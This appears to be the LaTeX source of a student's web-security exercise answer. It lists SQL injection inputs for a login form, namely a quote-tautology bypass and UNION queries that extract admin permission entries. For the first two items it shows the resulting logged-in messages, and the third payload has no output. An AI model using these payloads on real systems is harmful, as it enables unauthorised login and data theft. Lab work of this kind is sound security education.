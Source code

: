 \documentclass[10pt]{article}
\begin{document}
	\section*{3}
	\begin{itemize}
		\item[a)]
		\begin{verbatim}
		User: ' or ''=''-- 
		
		NOTE: after the -- there is a space (this is because the -- is a comment)
		
		Welcome Brad Pitt !
		You are now logged in and you can buy products on our website.
		\end{verbatim}
		\includegraphics[scale=0.3]{3a.png}
		
		\item[b)]
		\begin{verbatim}
		User: ' UNION select * from (SELECT NULL as id ,NULL as name FROM members WHERE 
		username='' or ''='' UNION select id,name from permissions where name like 
		'%admin%') as perms where id is not null-- 
		
		NOTE: after the -- there is a space (this is because the -- is a comment)
		
		Welcome 1 admin !
		You are now logged in and you can buy products on our website.
		\end{verbatim}
		\includegraphics[scale=0.3]{3b.png}
		
		\item[c)]
		\begin{verbatim}
		User: ' union SELECT first_name, name from permissions join members on 
		permissions.id=members.id where name like '%admin%' and username='' or ''=''-- 
		

\end{verbatim}
\end{itemize}
\end{document}
